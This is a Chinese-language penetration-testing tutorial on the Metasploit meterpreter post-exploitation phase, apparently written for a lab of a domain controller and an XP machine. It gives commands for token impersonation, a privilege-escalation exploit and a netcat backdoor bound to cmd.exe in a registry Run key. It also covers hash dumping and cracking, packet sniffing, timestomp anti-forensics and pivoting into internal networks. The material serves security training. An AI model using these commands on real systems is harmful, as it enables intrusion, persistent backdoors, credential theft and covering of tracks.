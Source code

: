 

# 后渗透测试阶段（二）

* Tokens
* Incognito
* 注册表
* 抓包（meterpreter）
* 搜索文件
* 时间
* Pivoting 跳板 / 枢纽 / 支点

## Tokens
> - 用户每次登录，账号绑定临时的Token  
> - 访问资源时提交Token进行身份验证，类似于WEB Cookie
> - Delegate Token：交互登录会话
> - Impersonate Token：非交互登录会话
> - Delegate Token账号注销后变为Impersonate Token，权限依然有效


## Incognito
* 描述
> 独立功能的软件，被MSF集成在meterpreter中  
> 无需密码破解或获取密码HASH，窃取Token将自己伪装成其他用户  
> 尤其适用于域环境下提权渗透多操作系统


* 搭建域环境
> DC+XP


* load incognito
``` 
list_tokens -u
impersonate_token   lab\\administrator
运行以上命令getsystem
    本地普通权限用户需先本地提权
    use exploit/windows/local/ms10_015_kitrap0d
    execute -f cmd.exe -i -t 　　　　　　// -t：使用当前假冒token执行程序
    shell
```
  　　
## 注册表

* 描述
> 注册表保存着windows几乎全部配置参数  
> 如果配置不当，可直接造成系统崩溃    
> 修改前完整备份注册表  
> 某些注册表的修改是不可逆的   

* 常见用途
> 修改、增加启动项  
> 窃取存储于注册表中的机密信息  
> 绕过文件型病毒查杀  

* 用注册表添加NC后门服务（meterpreter）
``` 
upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc    -d 'C:\windows\system32\nc.exe -Ldp 444 -e cmd.exe'
reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run   -v nc
```
* 打开防火墙端口（meterpreter）
``` 
execute -f cmd -i -H
netsh firewall show opmode
netsh firewall add portopening TCP 4444 "test" ENABLE ALL
shutdown -r -t 0
nc 1.1.1.1 4444

```

* 其他注册表项
``` 
https://support.accessdata.com/hc/en-us/articles/204448155-Registry-Quick-Find-Chart
```


## 抓包（meterpreter）
``` 
load sniffer
sniffer_interfaces
sniffer_start 2
sniffer_dump 2 1.cap / sniffer_dump 2 1.cap
// 在内存中缓冲区块循环存储抓包（50000），不写硬盘
// 智能过滤meterpreter流量，传输全程使用SSL/TLS 加密
```
* 解码
``` 
use auxiliary/sniffer/psnuffle
set PCAPFILE 1.cap
```

## 搜索文件

* 描述
> 文件系统访问会留下痕迹，电子取证重点关注  
> 渗透测试和攻击者往往希望销毁文件系统访问痕迹  
> 最好的避免被电子取证发现的方法：不要碰文件系统  
    -Meterpreter 的先天优势所在（完全基于内存）

``` 
search -f *.ini
search -d c:\\documents\ and\ settings\\administrator\\desktop\\ -f *.docx
// John the Ripper 破解弱口令
use post/windows/gather/hashdump 　　　　// system权限的meterpreter
Run　　　　　　　　　　　　　　　　　　 // 记过保存在/tmp目录下
use auxiliary/analyze/jtr_crack_fast
run
```

## 时间
* MAC 时间（Modified / Accessed / Changed）
``` 
ls -l --time=atime/mtime/ctime 1.txt
stat 1.txt
touch -d "2 days ago" 1.txt
touch -t 1501010101 1.txt
```


* MACE ：MFT entry
> - MFT：NTFS 文件系统的主文件分配表 Master File Table
> - 通常1024字节或 2 个硬盘扇区，其中存放多项entry 信息
> - 包含文件大量信息（大小、名称、目录位置、磁盘位置、创建日期）
> - 更多信息可研究 文件系统取证分析技术


* Timestomp (meterpreter)
``` 
timestomp -v 1.txt
timestomp -f c:\\autoexec.bat 1.txt
-b -r 　　　　　　　　// 擦除MACE时间信息，目前此参数功能失效
-m / -a / -c / -e / -z
timestomp -z "MM/DD/YYYY HH24:MI:SS" 2.txt
```


* Pivoting 跳板 / 枢纽 / 支点
> 利用已经控制的一台计算机作为入侵内网的跳板  
> 在其他内网计算机  
> run autoroute -s 1.1.1.0/24　　　　　　 #不能访问外网的被攻击目标内网网段

* 自动路由   现实场景
``` 
利用win 7攻击内网XP（对比xp有无外网访问权的情况）
扫描内网：use auxiliary/scanner/portscan/tcp
```

* Pivoting 之端口转发 Portfwd
``` 
// 利用已经被控计算机，在kali与攻击目标之间实现端口转发
portfwd add -L LIP -l LPORT -r RIP -p RPORT
portfwd add -L 1.1.1.10 -l 445 -r 2.1.1.11 -p 3389
portfwd list / delete / flush
```


``` 
use exploit/windows/smb/ms08_067_netapi
set RHOST 127.0.0.1
set LHOST 2.1.1.10

use exploit/multi/handler
set exitonsession false
```